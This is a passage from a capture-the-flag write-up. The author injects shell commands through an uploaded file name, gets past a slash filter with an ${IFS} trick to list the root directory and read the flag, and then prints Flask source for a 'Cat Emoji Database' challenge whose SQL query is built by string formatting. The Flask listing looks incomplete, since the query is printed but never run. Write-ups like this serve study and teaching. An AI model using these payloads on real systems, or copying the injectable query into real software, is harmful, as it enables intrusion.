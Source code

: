 There is a flag, but I am not the participant of MyFirstCTF QQ

So let's try to abuse command injection next. Upload a file named `qwe'; whoami; echo '`

![](https://i.imgur.com/0AfNc9E.png)

Nice!

And I tried to use `ls /` to find out flag's filename, but somehow it doesn't work :( Maybe there's a WAF or something?

So I bypassed `/` with `${IFS}`:

```
qwe'; ls `echo${IFS}${PATH}|cut${IFS}-c1-1`;echo '
```

![](https://i.imgur.com/AmPueAH.png)

Bypass success! and just print out the flag

### Cat Emoji Database

> Solved 15/292
> Interest ★★☆
> Difficulty ★★☆
> New-knowledge ★★☆
> CATS😻 ★★★★★<br>

It provided source code too:

```python
from flask import Flask, request, redirect, jsonify, send_file
import re

app = Flask(__name__)


@app.before_request
def fix_path():
    # trim all the whitespace from path
    trimmed = re.sub("\s+", "", request.path)
    if trimmed != request.path:
        return redirect(trimmed)


@app.route("/")
def index():
    return send_file("index.html")


@app.route("/api/all")
def emojis():
    cursor = db().cursor()
    cursor.execute("SELECT Name FROM Emoji")
    return jsonify(cursor.fetchall())


@app.route("/api/emoji/<unicode>")
def api(unicode):
    print("SELECT * FROM Emoji WHERE Unicode = %s" % unicode)
    row = ""
    if row:
        return jsonify({"data": row})
    else:
        return jsonify({"error": "Cat emoji not found"})


```